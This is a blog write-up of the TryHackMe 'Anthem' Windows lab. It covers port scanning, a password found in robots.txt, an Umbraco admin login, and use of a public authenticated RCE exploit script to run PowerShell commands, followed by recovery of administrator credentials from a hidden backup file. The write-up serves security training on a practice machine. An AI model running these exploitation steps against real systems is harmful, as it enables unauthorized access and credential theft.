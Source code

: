 ```yaml
---
layout: project
type: project
image: images/writeups/thm/anthem/logo.jpg
title: Anthem - TryHackMe
permalink: writeups/anthem
# All dates must be YYYY-MM-DD format!
date: 2021-04-20
labels:
  - TryHackMe
  - boot2root
  - Easy
  - Windows
  - Umbraco
summary: Exploit a Windows machine in this beginner level challenge.
---
```


<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/anthem/header.png">
<script src="https://www.tryhackme.com/badge/192700"></script>

```
MACHINE = Anthem
TARGET = VARIABLE
OS = WINDOWS
DIFFICULTY = EASY
```

## Enumeration

Starting with a rustscan to quickly enumerate open ports

```bash
┌──(root💀Toyin)-[~/infosec/thm/anthem]
└─# rustscan -a 10.10.184.142 -b 1000 | tee rustscan
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 924'.
Open 10.10.184.142:80
Open 10.10.184.142:3389
```

Passing the open ports into nmap to enumerate further

```bash
┌──(root💀Toyin)-[~/infosec/thm/anthem]
└─# nmap -T4 -A -p 80,3389 10.10.184.142 -oN nmap -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-28 21:24 WAT
Nmap scan report for 10.10.184.142
Host is up (0.24s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: WIN-LU09299160F
|   NetBIOS_Domain_Name: WIN-LU09299160F
|   NetBIOS_Computer_Name: WIN-LU09299160F
|   DNS_Domain_Name: WIN-LU09299160F
|   DNS_Computer_Name: WIN-LU09299160F
|   Product_Version: 10.0.17763
|_  System_Time: 2021-03-28T20:24:41+00:00
| ssl-cert: Subject: commonName=WIN-LU09299160F
| Not valid before: 2021-01-02T15:57:43
|_Not valid after:  2021-07-04T15:57:43
|_ssl-date: 2021-03-28T20:25:41+00:00; 0s from scanner time.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose
Running (JUST GUESSING): AVtech embedded (87%), Microsoft Windows XP (85%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3
Aggressive OS guesses: AVtech Room Alert 26W environmental monitor (87%), Microsoft Windows XP SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 3389/tcp)
HOP RTT       ADDRESS
1   296.98 ms 10.8.0.1
2   297.85 ms 10.10.184.142

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 88.39 seconds
```

I went to the site while I had a nikto scan running in the background
Checking the posts I get some possible users and even an email
Checking the source of the page I got one of the flags

```
Jane Doe - JD@anthem.com
James Orchard Halliwell
```

The nikto scan showed that robots.txt had some entries in it. Using curl to get the contents.

```bash
┌──(root💀Toyin)-[~/infosec/thm/anthem]
└─# curl anthem.com/robots.txt
UmbracoIsTheBest!

# Use for all search robots
User-agent: *

# Define the directories not to crawl
Disallow: /bin/
Disallow: /config/
Disallow: /umbraco/
Disallow: /umbraco_client/
```

Umbraco is a “flexible open source .NET CMS”. 
After almost pulling my hair out to find the name of the administrator I just guessed the name of who the poem on the page was about, Solomon Grundy.
Following the same email pattern as Jane Doe, his email should be SG@anthem.com
I logged in using the password I found in robots.txt

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/anthem/1.png">

## Exploitation

I found the version by checking the help of the panel and got Umbraco v. 7.15.4. Searchsploit showed remote code execution vulnerabilities for this version

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/anthem/2.png">

```bash
┌──(root💀Toyin)-[~/infosec/thm/anthem]
└─# searchsploit umbraco
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- --------------------------------- Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------Umbraco CMS - Remote Command Execution (Metasploit)                                                                                                                                                       | windows/webapps/19671.rb
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution                                                                                                                                                | aspx/webapps/46153.py
Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)                                                                                                                                                | aspx/webapps/49488.py
Umbraco CMS SeoChecker Plugin 1.9.2 - Cross-Site Scripting                                                                                                                                                | php/webapps/44988.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------Shellcodes: No Results
```

Using the 3rd exploit and got remote code execution

```bash
┌──(root💀Toyin)-[~/infosec/thm/anthem]
└─# cp /usr/share/exploitdb/exploits/aspx/webapps/49488.py ./umbraco_rce.py
┌──(root💀Toyin)-[~/infosec/thm/anthem]
└─# python umbraco_rce.py -u sg@anthem.com -p UmbracoIsTheBest! -i 'http://anthem.com' -c powershell -a “whoami”
iis apppool\anthem

```

I enumerated the users on the machine and found user SG, which was probably solomon grundy. So i tried using remmina to login via rdp
I also played around with getting a reverse shell instead of using rdp but the antivirus was a pain and I don't know how to evade it YET.

```bash
┌──(root💀Toyin)-[~/infosec/thm/anthem]
└─# python2 umbraco_rce.py -u "sg@anthem.com" -p "UmbracoIsTheBest!" -i "http://anthem.com" -c powershell.exe -a "get-localuser"

Name               Enabled Description

----               ------- -----------

Administrator      True    Built-in account for administering the computer/domain

DefaultAccount     False   A user account managed by the system.

Guest              False   Built-in account for guest access to the computer/domain

SG                 True

WDAGUtilityAccount False   A user account managed and used by the system for Windows Defender Application Guard scen...
```

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/anthem/3.png">

## Privilege Escalation

I got the user.txt on the desktop.Following the hint about hidden files, I found a hidden folder named backup in C:\ and it contained a file named restore that I couldn't read.
For some reason I could enable inheritance and I got permissions to read the file

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/anthem/4.png">

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/anthem/5.png">

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/anthem/6.png">

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/anthem/7.png">

```
Administrator:ChangeMeBaby1MoreTime
```

I opened powershell admin with the credentials and got the root flag.

pwned